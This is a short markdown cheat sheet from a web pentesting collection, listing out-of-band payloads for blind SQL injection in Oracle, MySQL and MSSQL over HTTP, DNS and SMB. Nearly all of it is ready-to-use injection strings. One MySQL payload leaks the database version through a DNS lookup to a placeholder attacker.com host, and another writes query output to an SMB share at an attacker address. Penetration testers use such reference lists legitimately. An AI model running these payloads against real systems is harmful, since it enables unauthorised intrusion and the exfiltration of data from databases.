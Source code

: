 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - webapp-pentesting
  - server-side-attack
  - blind-sql-injection
---
```

# Out-of-Band Payloads

## HTTP Requests

### Oracle

```
SELECT UTL_HTTP.REQUEST('http://localhost') FROM dual;
```

## DNS Requests

### MySQL

```
SELECT LOAD_FILE(CONCAT('\\\\foo.',(SELECT MID(version(),1,1)),'.attacker.com\\'));
```

### Oracle

```
SELECT UTL_INADDR.get_host_address('localhost.com') FROM dual;
```

## SMB Requests

### MySQL

```
OR 1=1 INTO OUTFILE '\\\\<attacker_IP>\\<share_name>\\output.txt
```

### MSSQL

```
OR 1=1; EXEC xp_dirtree 'C:\your_target_directory', 1, 1;-- -
```

---
## References

### WebSec

- [WebSec: SQL Injection Knowledge Base](https://www.websec.ca/kb/sql_injection)